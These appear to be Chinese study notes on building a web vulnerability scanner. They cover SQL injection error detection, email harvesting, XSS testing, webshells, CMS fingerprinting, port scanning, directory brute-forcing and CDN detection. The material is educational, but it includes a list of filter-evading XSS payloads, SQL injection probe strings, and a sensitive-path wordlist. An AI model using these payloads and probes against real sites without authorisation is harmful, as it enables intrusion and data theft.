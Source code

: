 学习参考：<https://www.shiyanlou.com/courses/761>

记录一些检测web攻击的思路



### sql注入检查

request 库。

通过在url 后面加上 `AND %d=%d` 或者 `OR NOT (%d>%d)`

拼接url，输出用正则匹：

```
"MySQL": (r"SQL syntax.*MySQL", r"Warning.*mysql_.*", r"valid MySQL result", r"MySqlClient\."),
    "PostgreSQL": (r"PostgreSQL.*ERROR", r"Warning.*\Wpg_.*", r"valid PostgreSQL result", r"Npgsql\."),
    "Microsoft SQL Server": (r"Driver.* SQL[\-\_\ ]*Server", r"OLE DB.* SQL Server", r"(\W|\A)SQL Server.*Driver", r"Warning.*mssql_.*", r"(\W|\A)SQL Server.*[0-9a-fA-F]{8}", r"(?s)Exception.*\WSystem\.Data\.SqlClient\.", r"(?s)Exception.*\WRoadhouse\.Cms\."),
    "Microsoft Access": (r"Microsoft Access Driver", r"JET Database Engine", r"Access Database Engine"),
    "Oracle": (r"\bORA-[0-9][0-9][0-9][0-9]", r"Oracle error", r"Oracle.*Driver", r"Warning.*\Woci_.*", r"Warning.*\Wora_.*"),
    "IBM DB2": (r"CLI Driver.*DB2", r"DB2 SQL error", r"\bdb2_\w+\("),
    "SQLite": (r"SQLite/JDBCDriver", r"SQLite.Exception", r"System.Data.SQLite.SQLiteException", r"Warning.*sqlite_.*", r"Warning.*SQLite3::", r"\[SQLITE_ERROR\]"),
    "Sybase": (r"(?i)Warning.*sybase.*", r"Sybase message", r"Sybase.*Server message.*"),
```



### 收集E-mail

在页面上搜索各种链接：如a标签，herf属性，收集 后，也是用正则匹配：`([\w-]+@[\w-]+\.[\w-]+)+`



### XSS检测

通过一些xss的payload加入到url参数中，然后查找url的源码中是否存在这个参数，

playload:

```
</script>"><script>prompt(1)</script>
</ScRiPt>"><ScRiPt>prompt(1)</ScRiPt>
"><img src=x onerror=prompt(1)>
"><svg/onload=prompt(1)>
"><iframe/src=javascript:prompt(1)>
"><h1 onclick=prompt(1)>Clickme</h1>
"><a href=javascript:prompt(1)>Clickme</a>
"><a href="javascript:confirm%28 1%29">Clickme</a>
"><a href="data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+">click</a>
"><textarea autofocus onfocus=prompt(1)>
"><a/href=javascript&colon;co\u006efir\u006d&#40;&quot;1&quot;&#41;>clickme</a>
"><script>co\u006efir\u006d`1`</script>
"><ScRiPt>co\u006efir\u006d`1`</ScRiPt>
"><img src=x onerror=co\u006efir\u006d`1`>
"><svg/onload=co\u006efir\u006d`1`>
"><iframe/src=javascript:co\u006efir\u006d%28 1%29>
"><h1 onclick=co\u006efir\u006d(1)>Clickme</h1>
"><a href=javascript:prompt%28 1%29>Clickme</a>
"><a href="javascript:co\u006efir\u006d%28 1%29">Clickme</a>
"><textarea autofocus onfocus=co\u006efir\u006d(1)>
"><details/ontoggle=co\u006efir\u006d`1`>clickmeonchrome
"><p/id=1%0Aonmousemove%0A=%0Aconfirm`1`>hoveme
"><img/src=x%0Aonerror=prompt`1`>
"><iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;1&rpar;&gt;">
"><h1/ondrag=co\u006efir\u006d`1`)>DragMe</h1>
```





### webshell

Webshell是web入侵的脚本攻击工具，简单的说来，webshell就是一个asp或php木马后门，黑客在入侵了一个网站后，常常在将这些asp或php木马后门文件放置在网站服务器的web目录中，与正常的网页文件混在一起。

一般是通过http的put方式去放入。



### CMS

CMS英文全称是：Content Management System 中文名称是： 网站内容管理系统 CMS识别原理

就是得到一些CMS的一些固有特征，通过得到这个特征来判断CMS的类别。
这里我们使用MD5识别和正则表达式识别的方式，就是用特定的文件路径访问网站，获得这个文件的MD5或者用正则表达式匹配某个关键词，如果匹配成功就说明这个是这个CMS。
所以，这个识别的成功率是根据我们的字典来的：

```
{
    "url": "/tpl/green/common/images/notebg.jpg",
    "re": "",
    "name": "自动发卡平台",
    "md5": "690f337298c331f217c0407cc11620e9"
},
{
    "url": "/images/download.png",
    "re": "",
    "name": "全程oa",
    "md5": "9921660baaf9e0b3b747266eb5af880f"
}
```

可看这里有一些特征表现。



#### web指纹

web指纹识别的核心原理是通过正则表达式匹配特征码或匹配文件的md5值等特殊信息，进而识别web应用程序的名称和版本，收集信息。

开拓思路可以使用模糊hash来搞。这里和的指纹在上方的字典中有体现。



### 端口扫描

TCP端口扫描一般分为以下几种类型：

1. TCP connect扫描：也称为全连接扫描，这种方式直接连接到目标端口，完成了TCP三次握手的过程，这种方式扫描结果比较准确，但速度比较慢而且可轻易被目标系统检测到。
2. TCP SYN扫描：也称为半开放扫描，这种方式将发送一个SYN包，启动一个TCP会话，并等待目标响应数据包。如果收到的是一个RST包，则表明端口是关闭的，而如果收到的是一个SYN/ACK包，则表示相应的端口是打开的。
3. Tcp FIN扫描：这种方式发送一个表示拆除一个活动的TCP连接的FIN包，让对方关闭连接。如果收到了一个RST包，则表明相应的端口是关闭的。
4. TCP XMAS扫描：这种方式通过发送PSH、FIN、URG、和TCP标志位被设为1的数据包。如果收到了一个RST包，则表明相应的端口是关闭的。

```python
 s = socket.socket(socket.AF_INET,socket.SOCK_STREAM) 
 s.settimeout(1) 
 try:
 	s.connect((self.ip, port))
    print "%s:%s OPEN [%s]"%(self.ip,port,self.PORT[port])
 except:
    print "%s:%s Close"%(self.ip,port)
 finally:
    s.close()
```



对应端口服务：

```
{80:"web",8080:"web",3311:"kangle",3312:"kangle",3389:"mstsc",4440:"rundeck",5672:"rabbitMQ",5900:"vnc",6082:"varnish",7001:"weblogic",8161:"activeMQ",8649:"ganglia",9000:"fastcgi",9090:"ibm",9200:"elasticsearch",9300:"elasticsearch",9999:"amg",10050:"zabbix",11211:"memcache",27017:"mongodb",28017:"mondodb",3777:"dahua jiankong",50000:"sap netweaver",50060:"hadoop",50070:"hadoop",21:"ftp",22:"ssh",23:"telnet",25:"smtp",53:"dns",123:"ntp",161:"snmp",8161:"snmp",162:"snmp",389:"ldap",443:"ssl",512:"rlogin",513:"rlogin",873:"rsync",1433:"mssql",1080:"socks",1521:"oracle",1900:"bes",2049:"nfs",2601:"zebra",2604:"zebra",2082:"cpanle",2083:"cpanle",3128:"squid",3312:"squid",3306:"mysql",4899:"radmin",8834:'nessus',4848:'glashfish'}
```



### 敏感目录爆破

就是在url路径后添加一些路径，看http返回的状态码，如果200则证明存在，一些敏感路径：

```
/database
/db
/dbase
/devel
/files
/forum
/programs
/set
/setting
/sources
/Stats
/usage
/weblog
/weblogs
...
```



### CDN 检测

CDN的全称是Content Delivery Network，即内容分发网络。其基本思路是尽可能避开互联网上有可能影响数据传输速度和稳定性的瓶颈和环节，使内容传输的更快、更稳定。通过在网络各处放置节点服务器所构成的在现有的互联网基础之上的一层智能虚拟网络，CDN系统能够实时地根据网络流量和各节点的连接、负载状况以及到用户的距离和响应时间等综合信息将用户的请求重新导向离用户最近的服务节点上。其目的是使用户可就近取得所需内容，解决 Internet网络拥挤的状况，提高用户访问网站的响应速度。

如何检测？

我们用各地的服务器测试这个网站，如果各地得到的是不同的IP，则说明网站用了CDN。